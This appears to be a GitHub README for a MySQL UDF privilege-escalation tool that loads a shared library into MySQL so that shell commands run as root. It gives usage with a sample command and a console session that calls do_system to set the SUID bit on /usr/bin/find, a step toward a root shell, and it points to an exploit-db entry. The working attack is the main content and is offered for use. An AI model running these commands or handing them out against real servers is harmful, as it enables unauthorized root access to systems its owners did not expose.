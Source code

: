 # MySQL-UDF-PrivEsc
Using MySQL UDF to excute system commands
<br/>Prerequisites:
- mysqld must run as root (ps aux | grep mysqld)
- you must know the credentials of a MySQL user that has the permission to create stored function on the DBMS

# How does it works?
The script use UDF shared library on MySQL to execute commands, if mysqld run as root, of course the passed (<b>-c</b>)ommand will be executed as root. On a 64bit *nix box you can pass the compiled .so included in this repo.<br/>
How to use the script: `mysql_udf_exec_sys.sh -u mysql-user -p mysql-user-password -s shared-library-path -c command-to-be-executed`<br>
e.g. `$ ./mysql_udf_exec_sys.sh -s lib_sys_udf.so -u root -p Secrete -c 'whoami > /tmp/whoM; chmod go+r /tmp/whoM;'`
  Once the script has been correctly executed you can direct access the MySQL console and use the function <b>do_system</b> directly:<br>
<pre>mysql> use mysql;
mysql> select do_system('chmod u+s /usr/bin/find');
+--------------------------------------+
| do_system('chmod u+s /usr/bin/find') |
+--------------------------------------+
|                                    0 |
+--------------------------------------+
1 row in set (0.00 sec)
</pre>
  
<br><br><b>Please have a look to the following resources to get specific information about the exploit: </b>
  - https://www.exploit-db.com/exploits/1518
  - MySQL UDF: https://mariadb.com/kb/en/library/create-function-udf 
  - Shared library soname: https://en.wikipedia.org/wiki/Soname
